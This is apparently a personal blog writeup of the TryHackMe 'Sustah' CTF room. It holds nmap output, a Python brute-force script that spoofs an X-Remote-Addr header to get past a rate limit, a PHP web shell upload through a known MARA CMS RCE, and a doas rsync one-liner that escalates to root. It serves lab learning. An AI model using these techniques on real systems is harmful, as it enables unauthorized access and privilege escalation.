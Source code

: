 +++ 
draft = false
date = 2021-01-30
title = "Sustah TryHackMe Writeup"
description = "Sustah room TryHackMe writeup"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","tryhackme","medium_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# [Sustah](https://tryhackme.com/room/sustah) TryHackMe Wirteup


![](/TryHackMe/Sustah/BoxImage.jpeg)


## __First Stage : Enumeration__


So as usual let's fire up nmap.


```
# Nmap 7.91 scan initiated Sat Jan 30 13:48:26 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.95.49
Warning: 10.10.95.49 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.95.49
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-01-30 13:48:27 IST for 877s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
|   256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
80/tcp   open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
1472/tcp filtered csdm    no-response
8085/tcp open     http    syn-ack     Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 30 14:03:04 2021 -- 1 IP address (1 host up) scanned in 878.90 seconds
```

So the ports that which are open :

* 22
* 80
* 1472
* 8085

Let's visit port 80.


![](/TryHackMe/Sustah/port80.png)




I ran gobuster and nikto got nothing interesting.


Hence I visited 8085 .


![](/TryHackMe/Sustah/port8085.png)



So we have to guess the number in order to get the path.

I used burp to intercept the request.

And I tried bruteforcing the numbers but after sometime there was a limit which was stopping from bruteforcing.


Hence I searced "bypassing rate limits" and found this blog in [HackTricks](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass) and tried this header **X-Remote-Addr: 127.0.0.1** and it worked.

So I sent it to intruder and set the payload from **10000** to **99999** step 1.


After sometime I understood that it is taking long to complete , hence I created a python script to do this fast.


``` python
import requests
import sys
import re
url = "http://10.10.95.49:8085/"

sess = requests.session()
for number in range(10000,99999):
   header_data= {"X-Remote-Addr" : "127.0.0.1"}
   data = {"number" : number}
   output = sess.post(url, headers = header_data, data = data)
   if "rate limit exceeded" in output.text:
        print("limit exceeded")
   elif "Oh no! How unlucky. Spin the wheel and try again." in output.text:
        pass
   else:
        print(f"[+]The number is {number}")
        sys.exit(0)

```
Hence I ran the script and got the number.

![](/TryHackMe/Sustah/number.png)


After we enter the number we got it gives us the directory.

> Note : the cms is in port 80


## __Second Stage : Initial access as www-data__
Hence we visit it

![](/TryHackMe/Sustah/path.png)



So the name of cms is **MARA**

Hence I search for exploits using searchsploit and found this.

![](/TryHackMe/Sustah/exploit.png)



So there is an  authenticated RCE , but we don't know the password. I tried the password given in exploit and it worked.


![](/TryHackMe/Sustah/admin.png)



As given in the exploit we go to **http://target/codebase/dir.php?type=filenew**

![](/TryHackMe/Sustah/uploading.png)





And upload our shell.php.


We get this message.


![](/TryHackMe/Sustah/uploaded.png)


Hence we start a listener.

Go to 

>http://target/img/shell.php



We get a shell.


![](/TryHackMe/Sustah/wwwdata.png)



## __Fourth Stage : www-data to kiran__


I ran linpeas and got some hashes in **/var/www/html/sitecfg**


But they were a dead end, hence I saw the hint . So I went for /var/backups directory.


![](/TryHackMe/Sustah/passwd.png)



I found the password in **.bak.passwd**


Now we get shell as __kiran__


## __Fifth Stage : kiran to root__


As soon as I ran linpeas this got my eyes.



![](/TryHackMe/Sustah/doas.png)


So I searched for rsync in [GTFOBINS](https://gtfobins.github.io/gtfobins/rsync/) . In order to get root .



> doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

And got root.


![](/TryHackMe/Sustah/root.png)








